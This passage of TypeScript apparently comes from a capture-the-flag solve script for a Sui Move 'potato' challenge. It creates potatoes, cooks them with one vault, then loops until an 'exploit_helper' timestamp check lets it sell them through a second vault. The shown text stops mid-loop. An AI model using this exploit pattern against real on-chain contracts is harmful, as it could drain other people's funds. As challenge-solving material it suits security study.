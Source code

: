     const result2 = await client.signAndExecuteTransaction({
        signer: keypair,
        transaction: tx2,
        requestType: 'WaitForEffectsCert',
        options: {
            showEffects: true,
            showObjectChanges: true,
        },
    });

    const potatoIds = result2.objectChanges?.filter(
        (change) => change.type === 'created' && change.objectType.includes('Potato')
    ).map(change => change.objectId);

    console.log('Potato IDs:', potatoIds);

    for (const id of potatoIds) {
        await waitForObject(client, id);
    }

    // tx3 uses vault1 to cooks all potatoes
    const tx3 = new Transaction();
    for (const potatoId of potatoIds) {
        tx3.moveCall({
            target: `${PACKAGE_ID}::potato::cook_potato`,
            arguments: [tx3.object(vault1), tx3.object(potatoId)],
        });    
    }
    const result3 = await client.signAndExecuteTransaction({
        signer: keypair,
        transaction: tx3,
        requestType: 'WaitForEffectsCert',
        options: {
            showEffects: true,
            showObjectChanges: true,
        },
    });

    // tx4 uses vault2 to sell all potatoes with pre-check of timestamp
    let success = false;
    let attempt = 0;

    while (!success) {
        attempt += 1;
        console.log(`Attempt #${attempt}...`);

        const tx4 = new Transaction();

        tx4.moveCall({
            target: `${SOLVE_PACKAGE_ID}::exploit_helper::check_timestamp`,
            arguments: [tx4.object(CLOCK_ID)],
        });

        for (const potatoId of potatoIds) {
            tx4.moveCall({
                target: `${PACKAGE_ID}::potato::sell_potato`,
                arguments: [
                    tx4.object(CLOCK_ID),
                    tx4.object(vault2),
                    tx4.object(potatoId),
                ],
            });
        }
